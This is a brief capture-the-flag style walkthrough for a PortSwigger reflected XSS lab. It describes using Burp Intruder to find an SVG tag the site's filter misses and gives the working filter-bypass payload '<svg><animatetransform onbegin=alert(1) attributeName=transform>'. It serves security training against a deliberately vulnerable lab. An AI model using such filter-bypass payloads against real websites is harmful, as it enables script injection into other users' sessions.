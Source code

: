 # Reflected XSS with some SVG markup allowed

## This lab has a simple [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability. The site is blocking common tags but misses some SVG tags and events.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert()` function.

### HINT:

`<svg><animatetransform onbegin=alert(1) attributeName=transform>`

---

### step 1

search test in search bar
send to intruder and add search in search <§§> with payload copy tag to clipboard

200 response from `<animatetransform> `

serach `<svg><animatetransform onbegin=alert(1) attributeName=transform>` into search bar lab solved

